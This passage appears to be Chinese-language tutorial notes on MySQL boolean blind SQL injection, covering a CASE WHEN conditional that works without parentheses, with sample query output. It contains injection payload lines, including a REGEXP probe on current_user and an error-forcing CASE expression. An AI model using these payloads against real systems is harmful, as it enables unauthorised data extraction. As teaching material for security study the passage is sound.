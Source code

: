 

```html
// 错误的情况
// 页面会爆错，如果关闭了错误提示，页面的数据会为空

mysql> select * from users where id=48 and current_user REGEXP '^aa';
Empty set
```



# 九、布尔盲注-case-条件判断-无()判断注入的办法

# 0x00 概要

只能用来证明是注入的方法



因为出现不了 ( )括号, 导致很多函数与方法都使用不了

# 0x00 记忆方式



case when '12345'like'1%' then'1'else 2*1e308 end

# 0x01 测试数据

```plain
mysql> select user();
+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)
```



```plain
mysql> select * from tdb_goods where goods_id=1;
+----------+----------------------------+------------+------------+-------------+---------+------------+
| goods_id | goods_name                 | goods_cate | brand_name | goods_price | is_show | is_saleoff |
+----------+----------------------------+------------+------------+-------------+---------+------------+
|        1 | R510VC 15.6英寸笔记本       | 笔记本     | 华硕      |    3399.000 |       1 |          0 |
+----------+----------------------------+------------+------------+-------------+---------+------------+
1 row in set (0.00 sec)
```
